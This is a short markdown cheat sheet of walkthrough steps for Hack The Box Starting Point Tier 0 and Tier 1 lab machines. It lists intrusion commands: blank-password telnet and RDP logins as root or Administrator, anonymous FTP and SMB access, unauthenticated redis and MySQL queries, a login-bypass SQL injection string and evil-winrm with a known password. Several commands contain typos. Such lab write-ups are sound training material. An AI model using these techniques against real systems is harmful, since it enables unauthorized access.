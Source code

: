 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three
### Ignition
### Bike
### Pennyworth


